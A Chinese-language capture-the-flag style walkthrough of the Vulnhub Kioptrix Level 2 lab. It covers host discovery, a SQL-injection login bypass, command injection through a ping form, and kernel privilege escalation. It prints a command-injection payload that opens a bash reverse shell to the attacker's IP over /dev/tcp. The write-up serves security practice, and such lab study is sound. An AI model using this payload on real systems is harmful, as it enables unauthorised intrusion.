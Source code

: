 ```yaml
---
title: Vulnhub-kioptrix_Level2
date: 2025-2-24 20:02:05
tags: 红队
categories: 红队打靶
---
```




# 信息收集

### 主机发现

```
netdiscover -i eht0 -r 192.168.137.0/24
```

![image-20250319153745788](Kioptrix%20Level2/image-20250319153745788.png)

### 端口扫描

![image-20250319165136560](Kioptrix%20Level2/image-20250319165136560.png)

将端口分离

```
ports=$(cat nmap-ports.nmap | grep open | awk -F/ '{print $1}' | tr '\n' ',')
```

## 80 端口

尝试万能密码，登录成功

![image-20250319170626895](Kioptrix%20Level2/image-20250319170626895.png)

![image-20250319171308645](Kioptrix%20Level2/image-20250319171308645.png)

缺少了输入框，查看源码是多了一个单引号，bp 抓包拦截返回包，然后修改源码就可以正常显示

![image-20250319171416770](Kioptrix%20Level2/image-20250319171416770.png)

功能是一个 ping 功能

![image-20250319171457384](Kioptrix%20Level2/image-20250319171457384.png)

可以尝试在 ip 后面跟上命令 "；" 的作用是顺序执行；

![image-20250319171556375](Kioptrix%20Level2/image-20250319171556375.png)

可以成功执行，直接在后面进行反弹 shell 即可

```
127.0.0.1;bash -c 'exec bash -i &>/dev/tcp/192.168.137.129/9991 <&1'
```

成功反弹 shell

## 提权

![image-20250319175201492](Kioptrix%20Level2/image-20250319175201492.png)

查看内核，寻找内核提权漏洞

![image-20250319175306220](Kioptrix%20Level2/image-20250319175306220.png)

下载到本地，本地开启 web 服务，靶机连接本机的 web 服务下载 exp

![image-20250319175440036](Kioptrix%20Level2/image-20250319175440036.png)

成功提权
